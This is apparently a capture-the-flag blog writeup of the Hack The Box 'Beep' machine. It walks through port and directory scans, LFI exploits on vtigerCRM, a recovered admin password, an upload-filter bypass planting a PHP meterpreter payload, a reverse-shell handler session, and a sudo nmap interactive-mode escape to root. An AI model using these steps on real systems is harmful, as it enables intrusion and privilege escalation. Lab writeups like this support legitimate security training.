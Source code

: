 ```yaml
---
layout: post
title: Beep(HTB)
categories:
  - Writeup
---
```


<br>OS Windows
<br>IP: 10.10.10.7

**Nmap**:-
<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">

<p><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># nmap -sS -A 10.10.10.7</p>

<p>Starting Nmap 7.50 ( https://nmap.org ) at 2018-03-03 04:36 EST
<br>Nmap scan report for 10.10.10.7
<br>Host is up (0.16s latency).
<br>Not shown: 988 closed ports
<br>PORT      STATE SERVICE    VERSION
<br><font color="BB69EC">22/tcp</font>    open  <font color="53E100">ssh</font>         OpenSSH 4.3 (protocol 2.0)
<br>| ssh-hostkey: 
<br>|   1024 ad:ee:5a:bb:69:37:fb:27:af:b8:30:72:a0:f9:6f:53 (DSA)
<br>|_  2048 bc:c6:73:59:13:a1:8a:4b:55:07:50:f6:65:1d:6d:0d (RSA)
<br><font color="BB69EC">25/tcp</font>    open  <font color="53E100">smtp</font>        Postfix smtpd
<br>|_smtp-commands: beep.localdomain, PIPELINING, SIZE 10240000, VRFY, ETRN, ENHANCEDSTATUSCODES, 8BITMIME, DSN, 
<br><font color="BB69EC">80/tcp</font>    open  <font color="53E100">http</font>        Apache httpd 2.2.3
<br>|_http-server-header: Apache/2.2.3 (CentOS)
<br>|_http-title: Did not follow redirect to https://10.10.10.7/
<br><font color="BB69EC">110/tcp</font>   open  <font color="53E100">pop3</font>        Cyrus pop3d 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
<br><font color="BB69EC">111/tcp</font>   open  <font color="53E100">rpcbind</font>     2 (RPC #100000)
<br>| rpcinfo: 
<br>|   program version   port/proto  service
<br>|   100000  2            111/tcp  rpcbind
<br>|   100000  2            111/udp  rpcbind
<br>|   100024  1            742/udp  status
<br>|_  100024  1            745/tcp  status
<br><font color="BB69EC">143/tcp</font>   open  <font color="53E100">imap</font>       Cyrus imapd 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
<br>|_imap-capabilities: Completed OK ATOMIC URLAUTHA0001 RIGHTS=kxte IMAP4rev1 THREAD=ORDEREDSUBJECT LITERAL+ ANNOTATEMORE LIST-SUBSCRIBED CONDSTORE UIDPLUS CATENATE BINARY MAILBOX-REFERRALS LISTEXT IDLE RENAME ID IMAP4 QUOTA X-NETSCAPE THREAD=REFERENCES SORT=MODSEQ SORT CHILDREN NAMESPACE MULTIAPPEND STARTTLS NO ACL UNSELECT
<br><font color="BB69EC">443/tcp</font>   open  <font color="53E100">ssl/http</font>   Apache httpd 2.2.3 ((CentOS))
<br>| http-robots.txt: 1 disallowed entry 
<br>|_/
<br>|_http-server-header: Apache/2.2.3 (CentOS)
<br>|_http-title: Elastix - Login page
<br>| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
<br>| Not valid before: 2017-04-07T08:22:08
<br>|_Not valid after:  2018-04-07T08:22:08
<br>|_ssl-date: 2018-03-03T09:21:37+00:00; -19m56s from scanner time.
<br><font color="BB69EC">993/tcp</font>   open  <font color="53E100">ssl/imap</font>   Cyrus imapd
<br>|_imap-capabilities: CAPABILITY
<br><font color="BB69EC">995/tcp</font>   open  <font color="53E100">pop3</font>Cyrus pop3d
<br><font color="BB69EC">3306/tcp</font>  open  <font color="53E100">mysql</font>      MySQL (unauthorized)
<br><font color="BB69EC">4445/tcp</font>  open  <font color="53E100">upnotifyp?</font>
<br><font color="BB69EC">10000/tcp</font> open  <font color="53E100">http</font>       MiniServ 1.570 (Webmin httpd)
<br>|_http-server-header: MiniServ/1.570
<br>|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
<br>OS:SCAN(V=7.50%E=4%D=3/3%OT=22%CT=1%CU=41868%PV=Y%DS=2%DC=T%G=Y%TM=5A9A6E1C
<br>OS:%P=i686-pc-linux-gnu)SEQ(SP=CB%GCD=2%ISR=CD%TI=Z%CI=Z%II=I%TS=A)SEQ(SP=C
<br>OS:B%GCD=1%ISR=CC%TI=Z%CI=Z%TS=A)OPS(O1=M54DST11NW7%O2=M54DST11NW7%O3=M54DN
<br>OS:NT11NW7%O4=M54DST11NW7%O5=M54DST11NW7%O6=M54DST11)WIN(W1=16A0%W2=16A0%W3
<br>OS:=16A0%W4=16A0%W5=16A0%W6=16A0)ECN(R=Y%DF=Y%T=40%W=16D0%O=M54DNNSNW7%CC=N
<br>OS:%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=Y%DF=Y%T=40%W=16A
<br>OS:0%S=O%A=S+%F=AS%O=M54DST11NW7%RD=0%Q=)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O
<br>OS:=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40
<br>OS:%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q
<br>OS:=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y
<br>OS:%DFI=N%T=40%CD=S) </p>

<p>Network Distance: 2 hops
<br>Service Info: Hosts:  beep.localdomain, 127.0.0.1, example.com</p>

<p>Host script results:
<br>|_clock-skew: mean: -19m56s, deviation: 0s, median: -19m56s</p>

<p>TRACEROUTE (using port 199/tcp)
<br>HOP RTT       ADDRESS
<br>1   167.17 ms 10.10.14.1
<br>2   167.42 ms 10.10.10.7</p>

<p>OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
<br>Nmap done: 1 IP address (1 host up) scanned in 390.20 seconds
<br><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># </p>

</div>
</font>

<br>**Web**:-
<br>On port 80 Elastix Service is running
![1](https://teckk2.github.io/assets/images/Beep/1.JPG)

<br>**Gobuster**:-
<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">

<p><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># gobuster -e -u https://10.10.10.7/ -t 500 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt </p>

<p>Gobuster v1.2                OJ Reeves (@TheColonial)
<br>=====================================================
<br>[+] Mode         : dir
<br>[+] Url/Domain   : https://10.10.10.7/
<br>[+] Threads      : 500
<br>[+] Wordlist     : /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
<br>[+] Status codes : 200,204,301,302,307
<br>[+] Expanded     : true
<br>=====================================================
<br>https://10.10.10.7/help (Status: 301)
<br>https://10.10.10.7/modules (Status: 301)
<br>https://10.10.10.7/themes (Status: 301)
<br>https://10.10.10.7/lang (Status: 301)
<br>https://10.10.10.7/static (Status: 301)
<br>https://10.10.10.7/admin (Status: 301)
<br>https://10.10.10.7/images (Status: 301)
<br>https://10.10.10.7/var (Status: 301)
<br>https://10.10.10.7/mail (Status: 301)
<br>https://10.10.10.7/panel (Status: 301)
<br>https://10.10.10.7/libs (Status: 301)
<br>https://10.10.10.7/recordings (Status: 301)
<br>https://10.10.10.7/configs (Status: 301)
<br><font color="ffff00">https://10.10.10.7/vtigercrm</font> (Status: 301)
<br><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># </p>

</div>
</font>
.
<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">

<p><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># gobuster -e -u https://10.10.10.7/vtigercrm/ -t 500 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt </p>

<p>Gobuster v1.2                OJ Reeves (@TheColonial)
<br>=====================================================
<br>[+] Mode         : dir
<br>[+] Url/Domain   : https://10.10.10.7/vtigercrm/
<br>[+] Threads      : 500
<br>[+] Wordlist     : /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
<br>[+] Status codes : 200,204,301,302,307
<br>[+] Expanded     : true
<br>=====================================================
<br>https://10.10.10.7/vtigercrm/test (Status: 301)
<br>https://10.10.10.7/vtigercrm/storage (Status: 301)
<br>https://10.10.10.7/vtigercrm/themes (Status: 301)
<br>https://10.10.10.7/vtigercrm/license (Status: 301)
<br>https://10.10.10.7/vtigercrm/modules (Status: 301)
<br>https://10.10.10.7/vtigercrm/database (Status: 301)
<br>https://10.10.10.7/vtigercrm/cache (Status: 301)
<br>https://10.10.10.7/vtigercrm/include (Status: 301)
<br>https://10.10.10.7/vtigercrm/packages (Status: 301)
<br>https://10.10.10.7/vtigercrm/Image (Status: 301)
<br>https://10.10.10.7/vtigercrm/backup (Status: 301)
<br>https://10.10.10.7/vtigercrm/data (Status: 301)
<br><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># </p>

</div>
</font>

<br>There is an interesting directory /vtigercrm for which we can look for
![2](https://teckk2.github.io/assets/images/Beep/2.JPG)
<br>After searching I found LFI exploits for [vtigerCRM](https://www.exploit-db.com/exploits/18770/), and [Vtiger login](https://www.exploit-db.com/exploits/37637/) which we can use to read user flag and get admin credentials.

**User Flag** :-
![3](https://teckk2.github.io/assets/images/Beep/3.JPG)
<br>The username is **fanis**
![4](https://teckk2.github.io/assets/images/Beep/4.JPG)
<br>Now using the second LFI exploit we can read the Admin credentials
![5](https://teckk2.github.io/assets/images/Beep/5.JPG)
<br>Now read lines one by one untill you find the correct password
![6](https://teckk2.github.io/assets/images/Beep/6.JPG)
<br>Username = **admin**
<br>Password = **jEhdIekWmdjE**
<br>Using this credential we can login to VtigerCRM dashboard as Admin
![7.1](https://teckk2.github.io/assets/images/Beep/7.1.JPG)

<br>**Shell**
<br>GO to Settings>Company Details> click on Edit and you will notice we can upload any image in place of company logo
<br> First Generate a php payload, Now to upload your php file in place for company logo we have to add **;.jpg** after **.php** to bypass browser image file upload restriction
![9](https://teckk2.github.io/assets/images/Beep/9.JPG)
<br>So first browse the file and select it after that click on save and capture the post request on burp
![10](https://teckk2.github.io/assets/images/Beep/10.JPG)
<br>Now edit it and remove the ;.jpg and forward the request
![11](https://teckk2.github.io/assets/images/Beep/11.JPG)
<br>make sure the file has been uploaded successfully
![12](https://teckk2.github.io/assets/images/Beep/12.JPG)
<br>Now set up the listner and go to the file location [https://10.10.10.7/vtigercrm/test/logo/beep.php](https://10.10.10.7/vtigercrm/test/logo/beep.php) and we will get the meterpreter shell.

<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">

<p>msf > use exploit/multi/handler 
<br>msf exploit(<font color="red">handler</font>) > set payload php/meterpreter/reverse_tcp
<br>payload => php/meterpreter/reverse_tcp
<br>msf exploit(<font color="red">handler</font>) > set LHOST 10.10.*.*
<br>LHOST => 10.10.14.10
<br>msf exploit(<font color="red">handler</font>) > set LPORT 4455
<br>LPORT => 4455
<br>msf exploit(<font color="red">handler</font>) > exploit </p>

<p><font color="RoyalBlue">[*]</font> Started reverse TCP handler on 10.10.*.*:4455 
<br><font color="RoyalBlue">[*]</font> Starting the payload handler...
<br><font color="RoyalBlue">[*]</font> Sending stage (33986 bytes) to 10.10.10.7
<br><font color="RoyalBlue">[*]</font> Meterpreter session 1 opened (10.10.*.*:4455 -> 10.10.10.7:39251) at 2018-03-03 08:33:58 -0500</p>

<p>meterpreter > getuid
<br>Server username: asterisk (100)
<br>meterpreter > sysinfo 
<br>Computer&nbsp;&nbsp;&nbsp;&nbsp;: beep
<br>OS&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;: Linux beep 2.6.18-238.12.1.el5 #1 SMP Tue May 31 13:23:01 EDT 2011 i686
<br>Meterpreter&nbsp;: php/linux
<br>meterpreter > </p>

</div>
</font>

**Privilege Escalation**

<br>User asterisk have root access to nmap, and the nmap version is 4.11 which can give us root shell using nmap interactive mode.

<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">

<p>meterpreter > shell
<br>Process 6593 created.
<br>Channel 0 created.
<br>id
<br>uid=100(asterisk) gid=101(asterisk) groups=101(asterisk)
<br>python -c 'import pty;pty.spawn("/bin/bash")'
<br>bash-3.2$ sudo -l
<br>sudo -l
<br>Matching Defaults entries for asterisk on this host:
<br>&nbsp;&nbsp;&nbsp;&nbsp;env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE INPUTRC KDEDIR
<br>&nbsp;&nbsp;&nbsp;&nbsp;LS_COLORS MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE LC_COLLATE
<br>&nbsp;&nbsp;&nbsp;&nbsp;LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES LC_MONETARY LC_NAME LC_NUMERIC
<br>&nbsp;&nbsp;&nbsp;&nbsp;LC_PAPER LC_TELEPHONE LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET
<br>&nbsp;&nbsp;&nbsp;&nbsp;XAUTHORITY"</p>

<p>User asterisk may run the following commands on this host:
<br>&nbsp;&nbsp;&nbsp;&nbsp;(root) NOPASSWD: /sbin/shutdown
<br>&nbsp;&nbsp;&nbsp;&nbsp;(root) NOPASSWD: /usr/bin/nmap
<br>&nbsp;&nbsp;&nbsp;&nbsp;(root) NOPASSWD: /usr/bin/yum
<br>&nbsp;&nbsp;&nbsp;&nbsp;(root) NOPASSWD: /bin/touch
<br>&nbsp;&nbsp;&nbsp;&nbsp;(root) NOPASSWD: /bin/chmod
<br>&nbsp;&nbsp;&nbsp;&nbsp;(root) NOPASSWD: /bin/chown
<br>&nbsp;&nbsp;&nbsp;&nbsp;(root) NOPASSWD: /sbin/service
<br>&nbsp;&nbsp;&nbsp;&nbsp;(root) NOPASSWD: /sbin/init
<br>&nbsp;&nbsp;&nbsp;&nbsp;(root) NOPASSWD: /usr/sbin/postmap
<br>&nbsp;&nbsp;&nbsp;&nbsp;(root) NOPASSWD: /usr/sbin/postfix
<br>&nbsp;&nbsp;&nbsp;&nbsp;(root) NOPASSWD: /usr/sbin/saslpasswd2
<br>&nbsp;&nbsp;&nbsp;&nbsp;(root) NOPASSWD: /usr/sbin/hardware_detector
<br>&nbsp;&nbsp;&nbsp;&nbsp;(root) NOPASSWD: /sbin/chkconfig
<br>&nbsp;&nbsp;&nbsp;&nbsp;(root) NOPASSWD: /usr/sbin/elastix-helper
<br>bash-3.2$ cd /usr/bin/    
<br>cd /usr/bin/
<br>bash-3.2$ nmap -version
<br>nmap -version </p>

<p>Nmap version 4.11 ( http://www.insecure.org/nmap/ )
<br>bash-3.2$ sudo nmap --interactive
<br>sudo nmap --interactive </p>

<p>Starting Nmap V. 4.11 ( http://www.insecure.org/nmap/ )
<br>Welcome to Interactive Mode -- press h <enter> for help
<br>nmap> !sh
<br>!sh
<br>sh-3.2# id
<br>id
<br>uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel)
<br>sh-3.2# cd /root
<br>cd /root
<br>sh-3.2# cat root.txt
<br>cat root.txt
<br><font color="53E100">********************************</font>
<br>sh-3.2# </p>

</div>
</font>


<p class="message">
  ~ Hack the World and Stay Noob
</p>

[Twitter](https://twitter.com/Teck__K2) / [Hack The Box](https://www.hackthebox.eu/profile/966) / [CTF Team](https://ctftime.org/team/20102) /
[Teck_N00bs Community Telegram](https://t.me/Teck_N00bs)

<script src="https://www.hackthebox.eu/badge/966"> </script>

